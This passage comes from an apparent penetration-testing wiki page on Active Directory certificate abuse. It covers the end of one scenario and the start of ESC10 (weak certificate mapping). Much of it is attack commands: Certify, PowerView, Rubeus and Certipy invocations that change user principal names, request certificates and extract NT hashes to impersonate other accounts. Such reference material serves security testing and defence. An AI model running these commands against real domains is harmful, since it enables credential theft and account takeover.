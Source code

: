 ```batch
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

The **user2**'s UPN is changed back to something else.

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```batch
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```
{% endtab %}
{% endtabs %}

### Weak certificate mapping (ESC10)

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

This ESC refers to a weak configuration of the registry keys:

* Case 1 :&#x20;
  * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
  * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
  * `GenericWrite` right against any account A to compromise any account B

{% hint style="warning" %}
At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.
{% endhint %}

{% tabs %}
{% tab title="Unix-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario.

In this scenario, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

First, the **user2**'s hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.

```bash
certipy shadow auto -username "user1@$DOMAIN" -p "$PASSWORD" -account user2
```

Then, the `userPrincipalName` of **user2** is changed to **user3**.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn user3
```
